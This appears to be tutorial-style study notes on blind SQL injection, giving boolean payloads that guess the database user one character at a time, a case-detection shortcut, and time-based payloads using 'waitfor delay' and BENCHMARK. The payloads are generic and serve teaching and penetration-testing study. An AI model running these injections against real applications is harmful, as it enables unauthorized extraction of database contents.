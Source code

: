 // returns **1** if true, **0** if false

```
' or substr(user(), 1, 1) ='a
' or substr(user(), 1, 1) ='b
etc
```

When we find the first letter, we can move to the second:
```
' or substr(user(), 2, 1) ='a 
' or substr(user(), 2, 1) ='b
```

### Scripting Blind SQLi Data Dump
```
9999 or SUBTRING(user_name(),1,1) = 'a'; --
9999 or SUBTRING(user_name(),1,1) = 'b'; --
// etc
```

### Optimized Blind SQL injections
This means that you need to be able to understand if the character you are trying to guess is:
```
[A-Z]
[a-z]
[0-9]
```

First:
```
ASCII(UPPER(SUBSTRING((<query>),<position>, 1)))=ASCII(SUBSTRING((<query>,<position>, 1))
// notes if the test is FALSE or TRUE

ASCII(LOWER(SUBSTRING((<query>),<position>, 1)))=ASCII(SUBSTRING((<query>,<position>, 1))
// the same with lowercase
```

- if the first query returns TRUE and the second FALSE, the character is uppercase
- if the first is false and the second is true,.the character is lowercase
- if both queries are TRUE our character is either a number or a symbol
- in this case we will iterate through [0-9] and symbols only

### Time Based Blind SQL Injection
- Another Blind SQL Injection technique is called Time-Based Blind Sql injection. Time is used to infer a TRUE condition from a FALSE condition.

This SQL syntax is used:
```
%SQL condition% wait For delay '0:0:5'
```

- if the SQL condition is TRUE the DBMS will delay For 5 seconds

Examples:
```
Check if we are 'sa' (MS SQL Server):
if (select user) = 'sa' waitfor delay '0:0:5'

Guess a database value (MySQL):
IF EXISTS (SELECT * FROM users WHERE username='armando') BENCHMARK (1000000,MD5(1))
```
